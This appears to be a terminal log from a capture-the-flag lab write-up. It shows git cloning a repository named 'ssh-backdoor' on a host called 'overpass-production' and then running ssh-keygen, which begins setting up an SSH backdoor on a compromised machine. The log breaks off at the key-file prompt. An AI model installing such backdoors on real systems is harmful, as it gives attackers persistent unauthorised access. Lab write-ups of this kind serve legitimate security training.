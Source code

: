 ```bash
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
```